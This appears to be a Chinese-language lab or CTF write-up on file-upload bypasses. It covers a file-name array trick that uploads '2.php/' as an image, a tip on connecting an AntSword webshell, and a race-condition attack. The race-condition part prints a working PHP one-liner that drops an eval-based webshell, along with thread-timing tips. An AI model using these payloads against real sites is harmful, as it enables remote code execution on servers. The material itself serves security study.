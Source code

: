![image-20240512201613083](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405122016196.png)
# 文件名数组绕过

![image-20240512202306248](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405122023329.png)

* 根据源代码，检查了文件类型必须是图片，并且把文件名$file打散成数组以 “.”分割
* 这里也存在 move_uploaded_file 函数，也就是说也有忽略到文件末尾的`/. `后面内容的性质。

```
构造数组：
save_name[0]=“2.php/”
save_name[1]为空
save_name[2]=“jpg”
```

![image-20240512203122720](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405122031785.png)

![image-20240512203136009](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405122031069.png)

![image-20240512203157715](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405122031801.png)



# 上传图片马后连接蚁剑的问题

* 如果.htaccess文件不起作用，导致蚁剑连接为空，可能是使用了nts版本的php

# 文件上传之条件竞争
>竞争原理:
1.网站允许上传任意文件，然后检测文件中若有webshell，就删除文件；若不是指定类型文件，那么就使用unlink删除文件
2.在删除之前访问上传的php文件，从而执行上传文件中的php代码

* 上传了一张图片和一句话木马，在文件路径发现只有图片

![屏幕截图 2023-08-10 192042](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121541157.png)

猜测是上传了php文件后被删除了，这里利用文件上传的条件竞争。
* 文件上传后短时间内还没被服务器删除，这时抢在服务器删除之前访问它就能够写入一句话木马。
*  webshell:

```
<?php 
fputs(fopen("shell.php", "w"), '<?php @eval($_POST["shell"]); ?>'); 
?>
```

这是上传的php文件，目的是一读取该文件就能创建并写入一句话木马。
注意：
* 一句话木马与该文件不能重名 
* 访问包的线程需要稍微大于上传包的线程。
